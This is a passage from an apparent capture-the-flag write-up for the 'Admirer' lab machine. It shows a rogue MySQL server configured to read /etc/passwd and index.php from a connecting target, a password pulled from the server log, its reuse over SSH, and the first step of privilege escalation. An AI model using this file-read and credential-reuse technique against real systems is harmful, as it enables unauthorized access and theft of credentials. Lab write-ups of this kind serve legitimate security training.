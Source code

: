 In `rogue_mysql_server.py` I changed the filelist to read `/etc/passwd` instead
of `c:\windows\win.ini`.

```python
filelist = (
#    r'c:\boot.ini',
#    r'c:\windows\win.ini',
#    r'c:\windows\system32\drivers\etc\hosts',
    '/etc/passwd',
#    '/etc/shadow',
)
```

We can login by setting our IP address and put whatever credentials.

Yet we can't read `/etc/passwd` because of open_basedir value.

![](https://i.imgur.com/aNbcknQ.png)

The file we need to read is `index.php` with the up-to-date credentials.

We can change `filelist` (add `'/var/www/html/index.php'`) again and restart the rogue server.

Then if we read the rogue server's logs:

```
$ cat mysql.log | grep password
...
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
...
```

The we can re-use those credentials over SSH:

```
$ ssh waldo@10.10.10.187
waldo@10.10.10.187's password:
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Sun Jul 12 16:20:44 2020 from 10.10.14.36
waldo@admirer:~$
```

### Privilege Escalation of Machine 

The way to follow seems obvious:

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
